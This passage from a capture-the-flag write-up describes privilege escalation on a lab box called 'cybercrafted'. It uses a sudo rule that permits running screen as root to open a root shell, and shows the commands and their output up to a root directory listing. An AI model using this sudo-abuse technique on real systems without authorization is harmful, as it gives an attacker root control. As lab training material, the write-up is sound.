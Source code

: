 ## **Privilege Escalation**

Knowing what permissions a user is allowed to do, `sudo` is a pretty important one. We can view what sudo privileges the user can perform by typing `sudo -l`

```
cybercrafted@cybercrafted:~$ sudo -l
[sudo] password for cybercrafted: 
Matching Defaults entries for cybercrafted on cybercrafted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cybercrafted may run the following commands on cybercrafted:
    (root) /usr/bin/screen -r cybercrafted
```

This user is allowed to run the command `/usr/bin/screen -r cybercrafted` with sudo. Screen is a windows manager for terminals much like tmux. So if we can use sudo to launch screen, we should be able to spawn terminals from screen which should inherit root privileges.

Searching [online](https://linuxize.com/post/how-to-use-linux-screen/) we can find what commands to use to spawn shells from screen or we can use the linux manual to dig through the commands (`man screen`). When we run the command, we are reattaching to an existing session (`-r cybercrafted`) and from there all we have to is spawn new window with a shell (ctl+a c).

```
# whoami
root
# id
uid=0(root) gid=1002(cybercrafted) groups=1002(cybercrafted)
# ls -al /root
total 52
drwx------  6 root root  4096 Oct 15 20:46 .
drwxr-xr-x 24 root root  4096 Sep 30 13:14 ..
lrwxrwxrwx  1 root root     9 Sep 12 09:33 .bash_history -> /dev/null
-rw-r--r--  1 root root  3106 Apr  9  2018 .bashrc
drwx------  2 root root  4096 Jun 27 17:49 .cache
drwx------  3 root root  4096 Jun 27 17:49 .gnupg
drwxr-xr-x  3 root root  4096 Oct  4 16:08 .local
-rw-------  1 root root   664 Sep 12 10:27 .mysql_history
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
-rw-r-----  1 root root    38 Jun 27 17:30 root.txt
drwx------  2 root root  4096 Jun 27 17:45 .ssh
-rw-------  1 root root 10959 Oct 15 20:46 .viminfo 
```

> Finish the job and give me the root flag!